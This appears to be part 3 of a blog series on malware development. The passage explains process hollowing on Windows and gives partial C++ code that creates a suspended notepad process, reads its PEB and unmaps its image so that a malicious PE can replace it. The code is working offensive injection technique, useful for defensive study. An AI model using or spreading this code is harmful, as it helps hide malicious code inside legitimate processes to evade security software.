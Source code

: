 ```yaml
---
title: 'Malwares Development Series | Part 3 : Process Injection | Process Hollowing'
published: 2024-07-29
description: ''
image: ''
tags: ['Malwares', 'CTF', 'Forensics', 'DFIR', 'RedTeam', 'BlueTeam', 'APT', 'Threat Hunting']
category: 'Malwares'
draft: false 
---
```


Hello, as a continuaton on our walkthrough about malwares techniques, Today we will cover the Process Hollowing technique.
During this blog, we'll follow this plan :

- **What is Process Hollowing ?**
- **How Process Hollowing works ?**
- **Process Hollowing Implementation**

Note : This Technique requires a deep understanding to Windows Process Mechanisms like PEB and MEMORY stuffs, So i recommende you to go take a look on them.

So let's begin

## What is Process Hollowing

First, we need to clarify the term "Hollowing", "Hollowed out" in the context of process hollowing refers to the act of removing or unmapping the legitimate code from a process's memory space and replacing it with malicious code.

So we can say that Process hollowing is a technique used to inject malicious code into a legitimate process. The process is essentially "hollowed out" and replaced with malicious code, which then runs under the guise of the legitimate process. Guess what, This technique is often used to evade detection by security software because the malicious code is running within a process that appears legitimate. Interesting huh ?

## How Process Hollowing works ?

The Process Hollowing operates on six important steps which are :

- **Create a Suspended Process**

First, we create a new instance of a legitimate process (e.g., notepad.exe) in a suspended state using CreateProcess with the CREATE_SUSPENDED flag. This means the process is created but not yet executed.

- **Unmap the Process's Memory**

Then, we use ZwUnmapViewOfSection or a similar API call to unmap the memory of the main executable image of the suspended process. This effectively "hollows out" the process.

- **Allocate Memory in the Process**
    
Allocates memory within the hollowed-out process using VirtualAllocEx.

- **Write Malicious Code to the Process**

We write the malicious code or the new executable image into the allocated memory of the suspended process using WriteProcessMemory.

- **Adjust Base Adresses ( The hard part )**

The purpose of this process is to ensure that all addresses within the loaded image are correctly adjusted to reflect the new base address in memory. This is necessary because the image may not always be loaded at its preferred base address, requiring relocation to function correctly.

- **Set Entry Point**
    
We modifie the entry point of the suspended process to point to the malicious code. This can be done by modifying the PEB (Process Environment Block) structure or by changing the CONTEXT of the process.

- **Resume the Process**
    
Finally, we need to resume the suspended process using ResumeThread. The process starts executing the malicious code instead of the original legitimate code.

## C++ Implamentation

Starting with importing the necessary libraries :

```cpp
#include <windows.h>
#include "internals.h"
#include "pe.h"
```

### Suspended Process Creation

So as we said we should create a new instance of a legitimate process ( Notepade ) in a suspended state, why, because we should unmap its original code and replace it with our malicious one before the execution of its main thread.

Let us create a function named ```CreateHollowedProcess(char* pDestCmdLine, char* pSourceFile)``` , The pSourceFile is our malicious code (PE).
```cpp
void CreateHollowedProcess(char* pDestCmdLine, char* pSourceFile){

    LPSTARTUPINFOA pStartupInfo = new STARTUPINFOA();
    LPPROCESS_INFORMATION pProcessInfo = new PROCESS_INFORMATION();
    
    CreateProcessA(
        0,
        pDestCmdLine,      
        0, 
        0, 
        0, 
        CREATE_SUSPENDED, 
        0, 
        0, 
        pStartupInfo, 
        pProcessInfo
    );

    if (!pProcessInfo->hProcess)
    {
        printf("Error creating process\r\n");
        return;
    }
}
```
So as you can see there is two new structures that I used, STARTUPINFOA and PROCESS_INFORMATION, which are two crucial structures that provide information about the startup configuration and state of the new process and its primary thread.

You can find more a about them in Windows APIs documentation here [STARTUPINFOA]('https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa') and here [PROCESS_INFORMATION]('https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information')

### Unmap the target process's memory

So after creating the suspended process, let's Unmap it.

```cpp
PPEB pPEB = ReadRemotePEB(pProcessInfo->hProcess);
    PLOADED_IMAGE pImage = ReadRemoteImage(pProcessInfo->hProcess, pPEB->ImageBaseAddress);

    printf("Opening source image\r\n");

    HANDLE hFile = CreateFileA(
        pSourceFile,
        GENERIC_READ, 
        0, 
        0, 
        OPEN_ALWAYS, 
        0, 
        0
    );

    if (hFile == INVALID_HANDLE_VALUE)
    {
        printf("Error opening %s\r\n", pSourceFile);
        return;
    }

    DWORD dwSize = GetFileSize(hFile, 0);
    PBYTE pBuffer = new BYTE[dwSize];
    DWORD dwBytesRead = 0;
    ReadFile(hFile, pBuffer, dwSize, &dwBytesRead, 0);
    CloseHandle(hFile);
    PLOADED_IMAGE pSourceImage = GetLoadedImage((DWORD)pBuffer);
    PIMAGE_NT_HEADERS32 pSourceHeaders = GetNTHeaders((DWORD)pBuffer);

    printf("Unmapping destination section\r\n");

    HMODULE hNTDLL = GetModuleHandleA("ntdll");
    FARPROC fpNtUnmapViewOfSection = GetProcAddress(hNTDLL, "NtUnmapViewOfSection");
    _NtUnmapViewOfSection NtUnmapViewOfSection = (_NtUnmapViewOfSection)fpNtUnmapViewOfSection;

    DWORD dwResult = NtUnmapViewOfSection(
        pProcessInfo->hProcess, 
        pPEB->ImageBaseAddress
    );

    if (dwResult)
    {
        printf("Error unmapping section\r\n");
        return;
    }
```

Before doing the unmaping, we should know about the PEB structure, the PEB is a data structure in the Windows operating system that holds information about a process. It includes details such as loaded modules, heap addresses, and the process image base address. Accessing the PEB of a target process is necessary to retrieve this critical information.

So let's take a pointer on the PEB with ReadRemotePEB() and load Image base address from it using ReadRemoteImage().

The purpose of reading the base address of the executable image is to know where the executable image of the process is loaded in memory.

After this step, we should get a handle on our malicious file that we want to replace the target's memory with, using CreateFileA(), reading it's content to a buffer and converts the raw image buffer (buffer) into a LOADED_IMAGE structure, which contains parsed information about the image.

So now while we got the necessary informations, let's Unmap the target's process memory with NtUnmapViewOfSection, imported from the ntdll.dll library.


